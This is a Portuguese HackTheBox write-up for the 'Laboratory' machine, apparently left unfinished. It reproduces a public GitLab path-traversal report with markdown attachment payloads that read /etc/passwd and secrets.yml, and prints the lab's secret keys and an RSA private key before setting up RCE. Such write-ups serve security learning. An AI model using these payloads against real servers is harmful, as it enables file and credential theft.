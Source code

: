 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Laboratory - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/Yy18N58.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos perceber dois sites:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://laboratory.htb/
https://git.laboratory.htb/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao acessar o site https://git.laboratory.htb/ nos deparamos com um [GitLab](https://about.gitlab.com/).

Em seguida, vamos tentar nos cadastrar:
![Image](https://i.imgur.com/ZBrnqIP.png)

Após o cadastro ser bem sucedido, temos acesso ao painel do GitLab, portanto, vamos tententar identificar a versão utilizada.

Na página https://git.laboratory.htb/help podemos identificar a versão exata que está sendo utilizada:
![Image](https://i.imgur.com/Jf44fiC.png)


Após encontrar a versão, podemos fazer buscas por exploits e falhas já conhecidas da versão...

Um [report](https://hackerone.com/reports/827052) do site de bugbounty HackerOne é nosso ponto inicial.

Portanto, devemos primeiramente criar dois projetos:

Vou chamar um de 'chu' e outro de 'stevenseagal' (XD)

Projeto 1 - chu:
![Image](https://i.imgur.com/xX8oTlp.png)

Projeto 2 - stevenseagal: 
![Image](https://i.imgur.com/EtNLpZ9.png)

Podemos conferir os dois projetos criados:
![Image](https://i.imgur.com/ntSr8u1.png)

Depois de criarmos os dois projetos, vamos tentar simular o que foi feito no report do H1.

Primeiro passo criar um novo Issue no projeto 'chu'
![Image](https://i.imgur.com/xMcW43V.png)

Dentro do issue iremos usar o mesmo payload do report
![Image](https://i.imgur.com/xMcW43V.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Logo em seguida, vamos mover o Issue para o outro projeto. (em meu caso do projeto chu para stevenseagal)
![Image](https://i.imgur.com/9r5mEnz.png)

Ao mover, dentro do projeto 2(stevenseagal) podemos perceber que ele já renomeou o arquivo em anexo chamado 'a' para o arquivo que queriamos (/etc/passwd)
![Image](https://i.imgur.com/OND9zlB.png)

Ao abrir o arquivo, temos o conteúdo:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Agora que já conseguimos ler arquivos dentro do servidor, podemos procurar por arquivos sensiveis que nos auxiliaram na exploração...
Um deles é o [secrets.yml](https://docs.gitlab.com/ee/development/application_secrets.html)

Portanto, repetimos o mesmo passo que fizemos para ler o /etc/passwd.

![Image](https://i.imgur.com/IleNsTZ.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Ao mover para o projeto 2, temos o arquivo secrets.yml
![Image](https://i.imgur.com/1G0jbn2.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# This file is managed by gitlab-ctl. Manual changes will be
# erased! To change the contents below, edit /etc/gitlab/gitlab.rb
# and run `sudo gitlab-ctl reconfigure`.

---
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
    -----BEGIN RSA PRIVATE KEY-----
    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
    -----END RSA PRIVATE KEY-----
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Podemos ver que o report inicial era sobre poder ler arquivos, mas lendo mais a seguir, podemos ver que é escalado para um RCE usando o gitlab-console.

Para isso, devemos instalar o GitLab, vamos usar o curl para isso:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
curl -s https://packages.gitlab.com/install/repositories/gitlab/gitlab-ce/script.deb.sh | sudo bash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após a instalação, vamos reconfigurar o GitLab:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gitlab-ctl reconfigure
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Editar o arquivo de configuração com a secret_key_base que obtemos do nosso alvo, podemos apenas comentar a linha antiga e adicionar uma nova:
![Image](https://i.imgur.com/kI3d5jn.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~









to escrevendo guenta aew


if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


My references:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://hackerone.com/reports/827052
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
